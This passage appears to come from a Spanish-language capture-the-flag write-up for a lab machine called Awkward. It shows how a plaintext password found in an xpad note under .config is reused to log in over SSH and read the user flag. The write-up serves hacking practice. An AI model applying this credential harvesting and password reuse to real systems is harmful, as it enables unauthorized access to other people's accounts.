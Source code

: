 Buscando en el directorio .config veremos una carpeta xpad la cual tiene archivos de notas... si los vemos encontramos esto en uno:

{% highlight bash %}
❯ ls -la
total 20
drwx------  2 vzon vzon 4096 sep 15 07:42 .
drwx------ 12 vzon vzon 4096 sep 15 07:41 ..
-rw-------  1 vzon vzon  433 sep 15 07:42 content-DS1ZS1
-rw-------  1 vzon vzon  449 sep 15 07:41 default-style
-rw-------  1 vzon vzon  153 sep 15 07:42 info-GQ1ZS1
❯ cat content-DS1ZS1
TO DO:
- Get real hat prices / stock from Christine
- Implement more secure hashing mechanism for HR system
- Setup better confirmation message when adding item to cart
- Add support for item quantity > 1
- Implement checkout system

boldHR SYSTEM/bold
bean.hill
014mrbeanrules!#P

https://www.slac.stanford.edu/slac/www/resource/how-to-use/cgi-rexx/cgi-esc.html

boldMAKE SURE TO USE THIS EVERYWHERE ^^^/bold%        
{% endhighlight %}

*NOTA: xpad es un gestor de notas para Linux*

Parecen ser credenciales... y sabemos que existe un usuario bean en el sistema.

Probando la contraseña con el usuario bean en ssh obtenemos acceso y podremos ver la primera flag

{% highlight bash %}
❯ /usr/bin/ssh bean@hat-valley.htb
bean@hat-valley.htb's password: 
Permission denied, please try again.
bean@hat-valley.htb's password: 
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Feb 22 21:35:06 2023 from 10.10.14.75
bean@awkward:~$ ls   
Desktop  Documents  Downloads  Music  Pictures  Public  snap  Templates  user.txt  Videos
bean@awkward:~$ cat user.txt
ddca3b3f7780a4468b6f6ae*********
bean@awkward:~$ 
{% endhighlight %}
